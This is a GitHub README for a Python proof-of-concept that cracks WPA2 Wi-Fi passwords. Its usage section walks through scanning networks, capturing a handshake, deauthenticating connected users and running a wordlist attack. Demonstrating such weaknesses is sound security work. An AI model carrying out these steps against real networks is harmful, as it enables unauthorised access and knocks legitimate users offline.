# WPA2-Crack
This a POC to show how a WPA-2 network can be cracked by computing the message integrity check in python.

## Requirements
* Python >= 3.6
* pbkdf2 == 1.3
* scapy >= 2.4.3

## Installation
  ```bash
  git clone https://github.com/nicolas031/WPA2-Crack.git
  cd WPA2-Crack
  pip3 install -r requirements.txt
  ```
  
## Usage
  The interface needs to be in monitor mode. (No check is done yet, it is just not going to work)
  The first step is to discover wifi network around us, for this we can use the `scan_wifi.py` script:
  ```sh
  sudo python3 scan_wifi.py -i wlan0mon
  ```

  For every wifi networks around you, you will be able to see the channel, BSSID and SSID
  We are now ready to capture the 4-way handshake for a choosen network + a beacon frame from this network.
  ```sh
  python3 capture_handshake.py -i wlan0mon -b xx:xx:xx:xx:xx:xx -c 1 -o handshake.pcap
  ```
  This script is now waiting for a device to connect to the network in order to capture the 4-Way handhsake, we can use the deauth.py script to disconnect user from the network:

  ```sh
  python3 deauth.py -i wlan0mon -b xx:xx:xx:xx:xx:xx
  ```
  
  Once we captured the handshake we are ready to start cracking the password
  ```sh
  python3 crack_password -w wordlist -p handshake.pcap
  ```
  If the password is in the wordlist, it will be found and displayed to the screen.

  Here is a short video:
  [![Alt text](https://img.youtube.com/vi/U7SkzveOCqs/0.jpg)](https://www.youtube.com/watch?v=U7SkzveOCqs)
  
  ### Changelogs
  ```
  v2.0.0
  ------
  * Added a beacon frame in the capture, to avoid error when user had to enter the SSID in crack_password.py script
  * Code refactoring, espacially tab changed into spaces !
  * Renamed files name
  * Added option to enter output filename in capture_handshake.py script
  * Deleted SSID option in crack_password.py script
  ```

